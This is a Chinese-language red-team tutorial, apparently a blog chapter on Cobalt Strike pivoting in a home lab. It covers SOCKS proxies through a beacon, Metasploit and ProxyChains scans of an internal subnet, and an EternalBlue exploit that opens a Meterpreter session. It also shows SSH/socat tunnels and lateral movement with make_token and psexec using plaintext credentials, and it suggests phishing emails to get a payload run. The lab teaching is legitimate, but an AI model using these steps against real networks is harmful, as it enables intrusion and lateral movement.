









# Cobalt Strike — 0x07 转发

## 0x07 转发

## 1、SOCKS 代理转发

在进行转发操作之前，需要将当前会话改为交互模式，也就是说输入命令就被执行，执行 `sleep 0` 即为交互模式。

### Socks



* 在当前 beacon 上可以右击选择 `Pivoting --> SOCKS Server` 设置一个 Socks4a 代理服务
* 或者使用命令 `socks [port]` 进行设置
* 使用命令 `socks stop` 关闭 Socks 代理服务
* 在 `View --> Proxy Pivots` 中可以看到已经创建的代理服务

### Metasploit 连接到 Socks 代理服务

* CS 中创建好代理后，在 Metasploit 中可以运行以下命令通过 beacon 的 Socks 代理进行通信

```plain
setg Proxies socks4:127.0.0.1:[port]
setg ReverseAllowProxy true
```

如果感觉上面命令比较长，还可以在 `Proxy Pivots` 界面中点击 `Tunnel` 按钮查看命令。

* 运行以下命令来停止

```plain
unsetg Proxies
```

setg 命令和 unsetg 表示在 metasploit 中全局有效，不用在每次选择模块后再重新设置。

**演示**

1、环境说明

> 攻击机 IP：192.168.175.200
>
> 上线主机：外部IP 192.168.175.130、内部IP 192.168.232.133
>
> 攻击目标：192.168.232.0/24 地址段

当前已经上线了一个 IP 为 192.168.175.130 主机，通过 ipconfig 发现，该主机也在 192.168.232.0/24 地址段内。

但当前攻击机无法访问 232 的地址段，因此如果想对 232 段内的主机发起攻击，就可以采用将 192.168.175.130 作为跳板机访问的方式。

2、设置 socks 代理

开启交互模式

```plain
sleep 0
```

```powershell
beacon> sleep 0
[*] Tasked beacon to become interactive
[+] host called home, sent: 16 bytes
```

开启 socks 代理

```plain
socks 9527
```

```powershell
beacon> socks 9527
[+] started SOCKS4a server on: 9527
[+] host called home, sent: 16 bytes
```

以上操作也可以通过图形化的方式进行。

3、Metasploit 中进行设置

开启 Metasploit 后，运行 setg 命令

```plain
setg Proxies socks4:192.168.175.200:9527
```

```powershell
msf5 > setg Proxies socks4:192.168.175.200:9527
Proxies => socks4:192.168.175.200:9527
```

4、扫描 192.168.232.0/24 地址段中的 445 端口

这里作为演示，只扫描一下 445 端口

```plain
use auxiliary/scanner/smb/smb_version
set rhost 192.168.232.0/24
set threads 64
exploit
```

```powershell
msf5 > use auxiliary/scanner/smb/smb_version 

msf5 auxiliary(scanner/smb/smb_version) > set rhost 192.168.232.0/24 
rhost => 192.168.232.0/24

msf5 auxiliary(scanner/smb/smb_version) > set threads 64
threads => 64

msf5 auxiliary(scanner/smb/smb_version) > exploit 
use auxiliary/scanner/smb/smb_version
[*] 192.168.232.0/24:445  - Scanned  44 of 256 hosts (17% complete)
[*] 192.168.232.0/24:445  - Scanned  64 of 256 hosts (25% complete)
[*] 192.168.232.0/24:445  - Scanned 110 of 256 hosts (42% complete)
[*] 192.168.232.0/24:445  - Scanned 111 of 256 hosts (43% complete)
[*] 192.168.232.0/24:445  - Scanned 128 of 256 hosts (50% complete)
[+] 192.168.232.133:445   - Host is running Windows 7 Ultimate SP1 (build:7601) (name:WINTEST) (domain:TEAMSSIX) (signatures:optional)
[+] 192.168.232.132:445   - Host is running Windows 2008 HPC SP1 (build:7601) (name:WINDC) (domain:TEAMSSIX) (signatures:required)
[*] 192.168.232.0/24:445  - Scanned 165 of 256 hosts (64% complete)
[*] 192.168.232.0/24:445  - Scanned 184 of 256 hosts (71% complete)
[*] 192.168.232.0/24:445  - Scanned 220 of 256 hosts (85% complete)
[*] 192.168.232.0/24:445  - Scanned 249 of 256 hosts (97% complete)
[*] 192.168.232.0/24:445  - Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
```

5、发现利用

通过扫描发现在 192.168.232.0/24 地址段内，除了已经上线的 `133` 主机外，还有 `132` 主机也开放了 445 端口，且该主机为 Windows 2008 的操作系统，这里使用永恒之蓝作为演示。

```plain
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 192.168.232.132
set payload windows/x64/meterpreter/bind_tcp
exploit
```

```powershell
msf5 > use exploit/windows/smb/ms17_010_eternalblue

msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.232.132
rhosts => 192.168.232.132

msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp

msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit 
[*] 192.168.232.132:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.232.132:445   - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 HPC Edition 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.232.132:445   - Scanned 1 of 1 hosts (100% complete)
[*] 192.168.232.132:445 - Connecting to target for exploitation.
[+] 192.168.232.132:445 - Connection established for exploitation.
[+] 192.168.232.132:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.232.132:445 - CORE raw buffer dump (51 bytes)
[*] 192.168.232.132:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 192.168.232.132:445 - 0x00000010  30 30 38 20 48 50 43 20 45 64 69 74 69 6f 6e 20  008 HPC Edition 
[*] 192.168.232.132:445 - 0x00000020  37 36 30 31 20 53 65 72 76 69 63 65 20 50 61 63  7601 Service Pac
[*] 192.168.232.132:445 - 0x00000030  6b 20 31                                         k 1             
[+] 192.168.232.132:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.232.132:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.232.132:445 - Sending all but last fragment of exploit packet
[*] 192.168.232.132:445 - Starting non-paged pool grooming
[+] 192.168.232.132:445 - Sending SMBv2 buffers
[+] 192.168.232.132:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.232.132:445 - Sending final SMBv2 buffers.
[*] 192.168.232.132:445 - Sending last fragment of exploit packet!
[*] 192.168.232.132:445 - Receiving response from exploit packet
[+] 192.168.232.132:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.232.132:445 - Sending egg to corrupted connection.
[*] 192.168.232.132:445 - Triggering free of corrupted buffer.
[*] Started bind TCP handler against 192.168.232.132:4444
[*] Sending stage (201283 bytes) to 192.168.232.132
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.175.200:9527) at 2020-09-01 22:13:57 -0400
[+] 192.168.232.132:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.232.132:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.232.132:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > ipconfig
Interface 11
============
Name         : Intel(R) PRO/1000 MT Network Connection
Hardware MAC : 00:0c:29:d3:6c:3d
MTU          : 1500
IPv4 Address : 192.168.232.132
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::a1ac:3035:cbdf:4872
IPv6 Netmask : ffff:ffff:ffff:ffff::
```

### 使用 ProxyChains 进行代理转发

使用 ProxyChains 可以使我们为没有代理配置功能的软件强制使用代理

1. 和[上一节](https://teamssix.com/year/200419-150644.html)中介绍的一致，开启一个 socks 代理服务
2. 配置 `/etc/proxychains.conf` 文件
3. 运行 `proxychains + 待执行命令`

接下来继续[上一节](https://teamssix.com/year/200419-150644.html)中的演示环境：

> 攻击机 IP：192.168.175.200
>
> 上线主机：外部IP 192.168.175.130、内部IP 192.168.232.133
>
> 攻击目标：192.168.232.0/24 地址段

1、设置 socks 代理

首先开启交互模式，之后开启 socks 代理

```plain
sleep 0
socks 9527
```

```powershell
beacon> sleep 0
[*] Tasked beacon to become interactive
[+] host called home, sent: 16 bytes
beacon> socks 9527
[+] host called home, sent: 16 bytes
[+] started SOCKS4a server on: 9527
```

2、配置  ProxyChains

在攻击机上，配置 `/etc/proxychains.conf` 文件的最后一行，根据当前攻击主机 IP 与设置的 Socks 端口，修改如下：

```plain
socks4 192.168.175.200 9527
```

3、开始使用  ProxyChains

根据[上一节](https://teamssix.com/year/200419-150644.html)使用 Metasploit 的扫描可以知道，在 192.168.232.0/24 地址段中存在主机 192.168.232.132 ，接下来使用 nmap 扫描一下常见的端口，这里以 80,443,445,3389 作为演示。

```plain
proxychains nmap -sT -Pn 192.168.232.132 -p 80,443,445,3389
```

> -sT：使用 TCP 扫描
>
> -Pn：不使用 Ping
>
> -p：指定扫描端口
>
> 注：不加上 -sT -Pn 参数，将无法使用 proxychains 进行代理扫描

```powershell
> proxychains nmap -sT -Pn 192.168.232.132 -p 80,443,445,3389                       
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-07 23:05 EDT
[proxychains] Strict chain  ...  192.168.175.200:9527  ...  192.168.232.132:80  ...  OK
[proxychains] Strict chain  ...  192.168.175.200:9527  ...  192.168.232.132:445  ...  OK
[proxychains] Strict chain  ...  192.168.175.200:9527  ...  192.168.232.132:3389  ...  OK
[proxychains] Strict chain  ...  192.168.175.200:9527  ...  192.168.232.132:443 <--denied
Nmap scan report for 192.168.232.132
Host is up (0.19s latency).

PORT     STATE  SERVICE
80/tcp   open   http
443/tcp  closed https
445/tcp  open   microsoft-ds
3389/tcp open   ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 14.35 seconds
```

通过扫描可以看到目标 80 端口是开放的，接下来使用 curl 作为对比示例。

```plain
curl 192.168.232.132
proxychains curl 192.168.232.132
```

```powershell
> curl 192.168.232.132
curl: (7) Failed to connect to 192.168.232.132 port 80: No route to host

> proxychains curl 192.168.232.132
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  192.168.175.200:9527  ...  192.168.232.132:80  ...  OK
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
……内容太多，此处省略……                 
```

## 2、反向转发

反向转发顾名思义就是和[上一节](https://teamssix.com/year/200419-150644.html)中提到的转发路径相反，之前我们设置的代理是 `CS服务端 --> 上线主机 --> 内网主机`，反向转发则是 `内网主机 --> 上线主机 --> CS服务端`。



继续使用上面的演示环境，首先右击上线主机会话，选择 `Pivoting --> Listener` ，除了 Name 选项之外，CS 都会自动配置好，这里直接使用默认的配置信息。



之后生成一个 Windows 可执行文件，选择上一步生成的监听器，如果目标是 64 位则勾选使用 x64 Payload 的选项。



之后将该可执行文件在目标主机上执行即可，在现实环境中可以尝试使用钓鱼邮件的方式诱导目标执行。

当目标执行该文件后，就会发现当前不出网的 192.168.232.132 主机已经上线了。



有一说一，关于这部分网上大部分教程还是 CS 3.x 版本的教程，而在 4.0 的操作中个人感觉要方便很多。

网上关于这部分内容的 CS 4.0 的教程真的是少之又少，一开始在参考 3.x 教程的时候踩了很多坑，最后终于某内部知识库发现了一篇关于这部分内容的 4.0 教程，在该教程的参考下才发现居然如此简单。

## 3、通过 SSH 开通通道



1、连接到上图中蓝色区域里的 PIVOT 主机并开启端口转发

```plain
ssh -D 1080 user@<blue pivot>
```

> 该命令中的 -D 参数会使 SSH 建立一个 socket，并去监听本地的 1080 端口，一旦有数据传向那个端口，就自动把它转移到 SSH 连接上面，随后发往远程主机。

2、在红色区域的 PIVOT 主机上开启通过 SSH Socks 的 445 端口转发

```plain
socat TCP4-LISTEN:445,fork SOCKS4:127.0.0.1:<target>:445
```

> socat 可以理解成 netcat 的加强版。socat 建立 socks 连接默认端口就是 1080 ，由于我们上面设置的就是 1080，因此这里不需变动。如果设置了其他端口，那么这里还需要在命令最后加上 `,socksport=<port>` 指定端口才行。

3、在攻击者控制的主机上运行 beacon，使其上线

```plain
注意需要使用 administrator 权限运行 beacon
```

4、在上线的主机上运行以下命令

```plain
make_token [DOMAIN\user] [password]
jump psexec_psh <red pivot> [listener]
```

整体的流程就是下面这张图一样。



**演示**

我在本地搭建了这样的一个环境。



1. 首先使 Win1 主机上线，接着在 Linux1 主机上通过 SSH 连接到 Linux2 主机。

```plain
ssh -D 1080 user@192.168.175.146
```

```powershell
> ssh -D 1080 user@192.168.175.146
user@192.168.175.146's password: 
Last login: Fri Jul 31 20:00:54 2020 from 192.168.175.1
user@ubuntu:~$ 
```

2、在 Linux1 主机上开启 445 端口转发

```plain
socat TCP4-LISTEN:445,fork SOCKS4:127.0.0.1:192.168.232.132:445
```

3、在 Win1 主机上运行以下命令使 Win2 上线

```plain
make_token teamssix\administrator Test123!
jump psexec_psh 192.168.175.200 smb
```

```powershell
beacon> make_token teamssix\administrator Test123!
[*] Tasked beacon to create a token for teamssix\administrator
[+] host called home, sent: 61 bytes
[+] Impersonated WINTEST\Administrator

beacon> jump psexec_psh 192.168.175.200 smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\msagent_532c) on 192.168.175.200 via Service Control Manager (PSH)
[+] host called home, sent: 5886 bytes
[+] received output:
Started service 4aea3b9 on 192.168.175.200
[+] host called home, sent: 204473 bytes
[+] established link to child beacon: 192.168.232.132
```

4、随后便可以看到通过 SSH 上线的主机


